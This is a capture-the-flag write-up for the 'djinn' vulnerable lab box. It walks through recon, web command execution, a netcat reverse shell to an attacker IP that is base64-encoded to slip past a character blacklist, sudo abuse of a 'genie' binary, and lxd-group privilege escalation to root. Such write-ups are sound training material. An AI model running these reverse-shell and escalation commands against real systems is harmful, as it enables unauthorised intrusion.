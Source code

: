 # [cd ../](../index.md)
# djinn
> Intermediate level vulnerable box.

# ⬇ Start ⬇
## Recon
### Nmap
```
sudo nmap -A -T4 -p- 10.10.214.152
```
[nmap_log](nmap.txt)  
Open ports are:
- 21 - ftp with anonymous login
- 22
- 1337 - some game
- 7331 - web 

### Ftp
We got 3 files. `creds.txt` - creds for nitu,  
`game.txt` - game on port `1337`  
and `message.txt` - a message about some guy went for a holiday and some other needs to take care of his/her work.  
![oh yes](https://media.giphy.com/media/21I7j6xSyuTHUNiRdp/giphy.gif)

### Dirsearch
![dirsearch](dirsearch.png)  
We got code execution in the dir!!!  
![ez](https://media.giphy.com/media/Rl9Yqavfj2Ula/giphy.gif)  
For example if we type `id` and press execute we got the *403 page* BUT there is a *lil black text* says we are **www-data**!  
![rce](rce.png)

## Getting a shell
Lets exploit this ***RCE***!  
We just need a reverse shell
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.22.204 9998 >/tmp/f
```
We got *Wrong choice of words* that means some chars are blacklisted
Blacklisted chars are: `.`, `/`, `$` and `*`

We have to ***bypass*** the blacklist!  
We can encrypt our revshell as base64 and just echo on the box then decrypt then just execute.
```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.22.204 9998 >/tmp/f" | base64

cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuOC4yMi4yMDQgOTk5OCA+L3RtcC9mCg==
```
Now we have to enter it to the wish textbox:
```
echo "cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuOC4yMi4yMDQgOTk5OCA+L3RtcC9mCg==" | base64 -d | bash
```
And we got the shell as `www-data`

## Going further, getting user
Look for interesting things in the files :D  
We got the *CREDS* variable from from the source!  
Update the shell to be able to use su:
```
python -c 'import pty;pty.spawn("/bin/bash")'
```
Just su to nitish with the pw we got!  
![shell](shell.png)  
And we got the user flag from `/home/nitish/user.txt`  

## Privesc to sam
More recoooon!!  
![ah shit here we go again](https://media.giphy.com/media/8vIFoKU8s4m4CBqCao/giphy.gif)  
Nah we dont have to do too much just run `sudo -l` ;)  
![sudo](sudo.png)  
So we can run this as user `sam` without any password!!
```
sudo -u sam /usr/bin/genie
```
Lets see a man page first or a help:
```
man genie
```
or `sudo -u sam /usr/bin/genie -h`
In the man page we can see an extra option `-cmd`  
Lets try it!
```
sudo -u sam /usr/bin/genie -cmd asd
```
![shell_sam](shell_sam.png)  
AAAAnd we got a shell as **sam**  

## Privesc to root
Get a normal shell with the *python pty* trick!  
Then just `sudo -l` as always :D  
![sudo_sam](sudo_sam.png)

```
sudo -u root /root/lago
```
Nothing interesting. This program is just roasting us xD

### Lets run a linenum!
We got in the last line that we have the lxd group and maybe we can do some nasty things with it  
So head over to [exploit-db](exploit-db.com) and search for lxd!  
We got only [one](https://www.exploit-db.com/exploits/46978)  
Lets try it ! :D  

### Getting apt with docker :D
Just pull ubuntu and execute `bash build-alpine` there.
```
docker pull ubuntu
sudo docker run -it --rm -v $(pwd):/data library/ubuntu /bin/bash

cd data
bash build-alpine
```
Now we have the `alpine*.tar.gz` file for the exploit.

### Exploiting
Upload the `.tar.gz` file to the box and run the exploit!
```
./exploit.sh -f alpine-v3.11-x86_64-20200227_1505.tar.gz
```
We got some permission errors so go back to **nitish's** profile and chmod 777 everything in `/home/nitish/.config`
```
su nitish
cd ~
chmod -R 777 .config
exit
```
Just run the exploit:
```
./exploit.sh -f alpine-v3.11-x86_64-20200227_1505.tar.gz
```
![damn](https://media.giphy.com/media/voOhKPgzYsyPu/giphy.gif)  
![root](root.png)

# Got root and the root flag from `/mnt/root/root/proof.sh`
![proof](proof.png)
